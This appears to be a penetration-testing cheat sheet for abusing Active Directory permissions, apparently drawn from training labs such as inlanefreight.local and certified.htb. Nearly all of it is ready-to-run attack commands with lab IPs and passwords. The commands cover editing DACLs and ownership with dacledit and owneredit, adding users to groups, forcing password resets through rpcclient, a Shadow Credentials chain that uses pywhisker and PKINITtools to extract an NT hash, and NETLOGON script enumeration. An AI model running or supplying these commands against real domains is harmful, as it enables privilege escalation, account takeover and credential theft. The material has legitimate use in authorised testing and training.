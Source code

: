 ```linux
```
WriteDACL
```bash
# Group Add
python3 examples/dacledit.py -principal own_user -target "Managers" -dc-ip 10.129.205.81 inlanefreight.local/own_user:Password1 -action write

net rpc group addmem "Managers" "own_user" -U inlanefreight.local/own_user%Password1 -S 10.129.205.81

# Password Reset
python3 examples/dacledit.py -principal own_user -target "kenta" -dc-ip 10.129.205.81 inlanefreight.local/own_user:Password1 -action write

rpcclient -U INLANEFREIGHT/own_user%Password1 10.129.205.81
setuserinfo2 kenta 23 Password1
```

Own Target
```bash
python3 examples/dacledit.py -principal own_user -target "Managers" -dc-ip 10.129.205.81 inlanefreight.local/own_user:Password1 -action 'write'

net rpc group addmem "Managers" "own_user" -U inlanefreight.local/own_user%Password1 -S 10.129.205.81

# PowerView
Add-DomainGroupMember -Identity MicrosoftSync -Members remote_svc$ -Verbose
```

WriteOwner
```bash
python3 examples/owneredit.py -action write -new-owner own_user -target target_user -dc-ip 10.129.205.81 inlanefreight.local/own_user:Password1

python3 examples/dacledit.py -principal own_user -target target_user -dc-ip 10.129.205.81 inlanefreight.local/own_user:Password1 -action write
```

#### Shadow Credential
GenericAll, GenericWrite WriteProperty 

https://github.com/ShutdownRepo/pywhisker <br/>
https://github.com/dirkjanm/PKINITtools
```bash
# Get pfx
python3 pywhisker.py -d "certified.htb" -u "JUDITH.MADER" -p "judith09" --target "MANAGEMENT_SVC" --action "add" --filename management

# In PKINITtools
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt
python3 gettgtpkinit.py -cert-pfx management.pfx -pfx-pass p9bX29Eozi8fT3CEpSvL certified.htb/MANAGEMENT_SVC MANAGEMENT_SVC.ccache
# key is in gettgtpkinit.py output
KRB5CCNAME=MANAGEMENT_SVC.ccache python3 getnthash.py -key c5b9e16f65d7f78cf15c8b185bfb75b2d1df367d1f3091392d336a7130669bef certified.htb/MANAGEMENT_SVC 
```
#### Script-Path
Enum
```bash
# permission
python examples/dacledit.py -principal own_user -target 'target' -dc-ip 10.129.229.224  inlanefreight.local/own_user:'pass'
smbcacls //10.129.229.224/NETLOGON /targetScripts -U own_user%'pass'
```